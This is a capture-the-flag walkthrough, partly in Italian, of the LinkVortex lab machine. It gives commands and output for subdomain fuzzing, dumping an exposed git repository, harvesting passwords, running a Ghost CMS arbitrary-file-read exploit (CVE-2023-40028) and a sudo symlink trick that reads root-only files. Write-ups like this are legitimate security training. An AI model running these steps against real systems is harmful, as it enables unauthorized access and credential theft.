




# LinkVortex


Target: 10.10.11.47

Port scanning:
```
$ nmap -sC -sV -oA nmap/top1000 10.10.11.47
```

Results:
- 22/tcp ,OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0).
- 80/tcp, Apache httpd, redirect to `http://linkvortex.htb/`.

[+] Ubuntu Jammy (22.04)

Update local dns:

```
kali $ vim /etc/hosts
```

Append to `/etc/hosts`:

```
10.10.11.47     linkvortex.htb
```

The web app uses the `ghost` CMS version `5.58`.



> [Ghost](https://ghost.org/) is a powerful app for new-media creators to publish, share, and grow a business around their content.

There is an author: `admin`.


From the [ghost documentation](https://ghost.org/docs/) discover the `Admin API` uses to which has both read and write access used to create and update content.

Security results are commit in [github](https://github.com/TryGhost/Ghost).

The `robots.txt` reveals some path.


The `/ghost/` path redirect to a `Sign in` page.



Virtual hosting routing scanning with `ffuf`:

```
$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -o ffuf/vhost -of csv -v

$ cat ffuf/vhost | cut -d"," -f1,5 | grep -nv ".*,301"
1:FUZZ,status_code
32:dev,200
```

Result:

- `dev.linkvortex.htb`

Updates the local dns.

```
10.10.11.47     linkvortex.htb dev.linkvortex.htb
```

Visit `http://dev.linkvortex.htb`.


This suggest that the web page is in development mode, potrebbe esserci un controllo di versione quale `.git`.

Visit `http://dev.linkvortex.htb/.git`.



Si utilizza `git-dumper` per recuperare il `codebase`.

```
$ python3 -m venv venv && source venv/bin/activate && pip install git-dumper

$ git-dumper http://dev.linkvortex.htb/.git ./codebase/
```

Con una ricerca sul web, si è appreso della esistenza di una vulnerabilità per `Ghost 5.58`.

[+] [CVE 2023-40028](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)

This script exploits a vulnerability in Ghost CMS (CVE-2023-40028) to read arbitrary files from the server. By leveraging a symlink in an uploaded ZIP file, an attacker can gain unauthorized access to sensitive files on the system.

Try to gain access as user.

```
$ ls -lah codebase/
total 1.4M
drwxrwxr-x  7 kali kali 4.0K Mar 18 11:17 .
drwxrwxr-x  8 kali kali 4.0K Mar 18 11:16 ..
drwxrwxr-x  8 kali kali 4.0K Mar 18 11:17 apps
-rw-rw-r--  1 kali kali  521 Mar 18 11:17 Dockerfile.ghost
-rw-rw-r--  1 kali kali  312 Mar 18 11:17 .editorconfig
drwxrwxr-x 80 kali kali 4.0K Mar 18 11:17 ghost
drwxrwxr-x  7 kali kali 4.0K Mar 18 11:17 .git
-rw-rw-r--  1 kali kali  122 Mar 18 11:17 .gitattributes
drwxrwxr-x  7 kali kali 4.0K Mar 18 11:17 .github
-rw-rw-r--  1 kali kali 3.1K Mar 18 11:17 .gitignore
-rw-rw-r--  1 kali kali  135 Mar 18 11:17 .gitmodules
-rw-rw-r--  1 kali kali 1.1K Mar 18 11:17 LICENSE
-rw-rw-r--  1 kali kali  888 Mar 18 11:17 nx.json
-rw-rw-r--  1 kali kali 3.5K Mar 18 11:17 package.json
-rw-rw-r--  1 kali kali 2.8K Mar 18 11:17 PRIVACY.md
-rw-rw-r--  1 kali kali 5.3K Mar 18 11:17 README.md
-rw-rw-r--  1 kali kali  518 Mar 18 11:17 SECURITY.md
drwxrwxr-x  2 kali kali 4.0K Mar 18 11:17 .vscode
-rw-rw-r--  1 kali kali 1.4M Mar 18 11:17 yarn.lock
```

Per sfruttare la `Local File Inclusion` bisogna avere un account per accedere alle funzionalità che Ghost mette a disposizione.

Discovery di informazioni per il login.

Used [detection_email.sh]() script to collect some emails in `codebase/`.

```
$ ../detect_email.sh . ../email.txt
```

There are `837` emails detected.

E' lecito pensare che, vista la presenza di un autore `admin` che ha pubblicato del contenuto nel blog, allora la sua email potrebbe essere del tipo `admin@*.*`.

```
$ grep "admin" email.txt 
admin+1@ghost.org
admin-api-key-test@example.com
admin@example.com
administrator@test.com
newadmin@test.com
test+admin@ghost.org
```

Per tutti questi risultati, la pagina restituisce una non corrispondenza.

```
$ grep "linkvortex" email.txt 
dev@linkvortex.htb
```

Non funziona, ma questo puo far pensare alla esistenza di una email del tipo `admin@linkvortex.htb`.


Si cerca una possibile password in `codebase/`.

Con il comando 

```
$ grep -rinh "password =" .
```

si sono trovati due corrispondenze interessanti:

- OctopiFociPilfer45
- thisissupersafe

Si ha accesso alla pagina `http://linkvortex.htb/ghost/#/dashboard` con le credenziali:

- admin@linkvortex.htb:OctopiFociPilfer45



```
$ git clone https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028.git
```

Si lancia l'exploit:

```
$ ./CVE-2023-40028 -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45' -h http://linkvortex.com                                                                                                        
WELCOME TO THE CVE-2023-40028 SHELL                                                                                                                                                                       
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```

Users muniti di `/bin/bash`:

- root:0:0
- node:1000:1000

Tentativo di accesso con ssh per `node`.

Le password collezionate e presenti in `codebase/` non permettono l'accesso con ssh.

Si analizza il file `Dockefile.ghost`:

```
$ cat Dockerfile.ghost 
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```

Si utilizza l'exploit per ottenere il file `/var/lib/ghost/config.production.json`.

```
File content:
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```

Si sono effettuati altri tentativi per accedere ad una shell remota.

- bob@10.10.11.47:fibber-talented-worth

Accesso ottenuto.

```
bob@linkvortex:~$ ls -lah
total 28K
drwxr-x--- 3 bob  bob  4.0K Nov 30 10:07 .
drwxr-xr-x 3 root root 4.0K Nov 30 10:07 ..
lrwxrwxrwx 1 root root    9 Apr  1  2024 .bash_history -> /dev/null
-rw-r--r-- 1 bob  bob   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 bob  bob  3.7K Jan  6  2022 .bashrc
drwx------ 2 bob  bob  4.0K Nov  1 08:40 .cache
-rw-r--r-- 1 bob  bob   807 Jan  6  2022 .profile
-rw-r----- 1 root bob    33 Mar 19 21:48 user.txt

bob@linkvortex:~$ cat user.txt
e67ed2c07cbdc3c***************f0

bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

> user.txt:69ee55437ca082***************f3


```
bob@linkvortex:/opt/ghost$ ls -lah
total 48K
drwxr-xr-x  4 root    root 4.0K Nov 30 10:07 .
drwxr-xr-x  5 root    root 4.0K Nov 30 10:07 ..
-rw-------  1 root    root  521 Apr  1  2024 Dockerfile.ghost
-rw-------  1 root    root  185 Apr  1  2024 Dockerfile.ghost-db
-rwxr--r--  1 root    root  745 Nov  1 08:46 clean_symlink.sh
-rw-r--r--  1 root    root  645 Apr  1  2024 config.production.json
drwxr-xr-x 11    1000 root 4.0K Apr  1  2024 content
-rw-------  1 root    root 1.4K Apr  1  2024 docker-compose.yml
-rw-------  1 root    root  238 Apr  1  2024 entry.sh
drwxr-xr-x  8 _laurel root 4.0K Mar 19 21:45 mysql
-rw-------  1 root    root 5.2K Apr  1  2024 wait-for-it.sh
```

Analisi dello script `clean_symlink.sh`:
```
bob@linkvortex:/opt/ghost$ cat -n clean_symlink.sh 
     1  #!/bin/bash
     2
     3  QUAR_DIR="/var/quarantined"
     4
     5  if [ -z $CHECK_CONTENT ];then
     6    CHECK_CONTENT=false
     7  fi
     8
     9  LINK=$1
    10
    11  if ! [[ "$LINK" =~ \.png$ ]]; then
    12    /usr/bin/echo "! First argument must be a png file !"
    13    exit 2
    14  fi
    15
    16  if /usr/bin/sudo /usr/bin/test -L $LINK;then
    17    LINK_NAME=$(/usr/bin/basename $LINK)
    18    LINK_TARGET=$(/usr/bin/readlink $LINK)
    19    if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    20      /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    21      /usr/bin/unlink $LINK
    22    else
    23      /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    24      /usr/bin/mv $LINK $QUAR_DIR/
    25      if $CHECK_CONTENT;then
    26        /usr/bin/echo "Content:"
    27        /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    28      fi
    29    fi
    30  fi
```

Lo script `clean_symlink.sh` viene eseguito con i permessi di `root` ed in sostanza, permette di leggere il contenuto di un file soddisfacendo i seguenti requisiti:

1. il `payload` deve essere un file con estenzione .png;
2. deve essere un file di tipo `symlink`;
3. il `symlink` non deve essere comprendere file di `/etc` e `/root`;
4. la variabile di ambiente `CHECK_CONTENT` deve essere settata a un valore diverso dalla stringa vuota per poter ottenere in output il contenuto del file passato in input allo script.

Si puo utilizzare questo script per accedere a risorse sensibili.

Struttura dei `symbolic link` da definire:

payload.png -> normal file -> file with no read permission for bob

```
bob@linkvortex:/opt/ghost$ find / -name root 
find: ‘/root’: Permission denied
```

```
bob@linkvortex:/opt/ghost$ mkdir ~/payload/
bob@linkvortex:/opt/ghost$ ln -s -T /root/root.txt ~/payload/file
bob@linkvortex:/opt/ghost$ ln -s -T ~/payload/file ~/payload/file.png
bob@linkvortex:/opt/ghost$ cat ~/payload/file.png 
cat: /home/bob/payload/file.png: Permission denied
```

```
bob@linkvortex:/opt/ghost$ sudo CHECK_CONTENT="true" /usr/bin/bash /opt/ghost/clean_symlink.sh ~/payload/file.png 
Link found [ /home/bob/payload/file.png ] , moving it to quarantine
Content:
69ee55437ca082***************f3
```

> root.txt:69ee55437ca082***************f3
